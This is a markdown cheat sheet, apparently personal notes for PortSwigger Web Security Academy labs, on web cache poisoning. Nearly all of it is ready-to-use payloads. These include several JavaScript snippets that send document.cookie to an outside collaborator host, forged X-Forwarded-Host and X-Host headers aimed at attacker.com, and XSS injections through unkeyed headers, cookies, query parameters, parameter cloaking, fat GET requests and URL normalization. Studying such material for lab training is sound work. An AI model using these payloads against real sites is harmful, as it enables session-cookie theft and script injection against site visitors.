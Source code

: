 # Web Cache Poisoning

`Always add cache busters to test: /?abc=123`

## If X-Forwarded-Host and X-Cache works:

```
  go to the **exploit server** ->

  in **"file"**: /recources/js/tracking.js
  in **"body"**:
  document.write('<img src="http://burp.oastify.com?c='+document.cookie+'" />')
```

  or
  
  `fetch('http://burp.oastify.com?c=' + document.cookie, { mode: 'no-cors' });`
  
  or
  
  `location.href = 'http://burp.oastify.com?c=' + document.cookie;`
  
  or
  
```
  var xhr = new XMLHttpRequest();
  xhr.open('GET', 'http://burp.oastify.com?c=' + document.cookie, true);
  xhr.send();
```

![dsx](https://github.com/user-attachments/assets/e3d70422-eda9-40e9-86e4-eee50eb135e3)

## Web cache poisoning with an unkeyed header:

``
  X-Forwarded-Host: kek.com"></script><script>alert(document.cookie)</script>//
``

## Web cache poisoning with an unkeyed cookie:

``
  Cookie: session=x; fehost=prod-cache-01"}</script><script>alert(1)</script>//
  or
  fehost=someString"-alert(1)-"someString
``

## Web cache poisoning with multiple headers:

    On exploit-server change the file name to match the path used by the vulnerable response: /resources/js/tracking.js. 
    In body write alert(document.cookie) script.

``
  GET /resources/js/tracking.js HTTP/1.1
  Host: acc11fe01f16f89c80556c2b0056002e.web-security-academy.net
  X-Forwarded-Host: exploit-server.web-security-academy.net/
  X-Forwarded-Scheme: http
``

## Targeted web cache poisoning using an unknown header

    HTML is allowed in comment section. Steal user-agent of victim with <img src="http://collaborator.com"> payload.
    or use /resources/js/tracking.js and alert(document.cookie), if u dont have collaborator.

``
GET / HTTP/1.1
Host: vulnerbale.net
User-Agent: THE SPECIAL USER-AGENT OF THE VICTIM
X-Host: attacker.com
``

## Web cache poisoning via an unkeyed query string

``
/?search=evil'/><script>alert(1)</script>
Origin:x
``

## Web cache poisoning via an unkeyed query parameter

``
GET /?utm_content=123'/><script>alert(1)</script>
``

## Parameter cloaking

``
/js/geolocate.js?callback=setCountryCookie&utm_content=foo;callback=alert(1)
``

## Web cache poisoning via a fat GET request

``
GET /js/geolocate.js?callback=setCountryCookie
Body:
callback=alert(1)
``

## URL normalization

``
/random"><script>alert(1)</script> 
``

or

``
GET /random</p><script>alert(1)</script><p>foo
``

Cache this path and then deliver URL to the victim
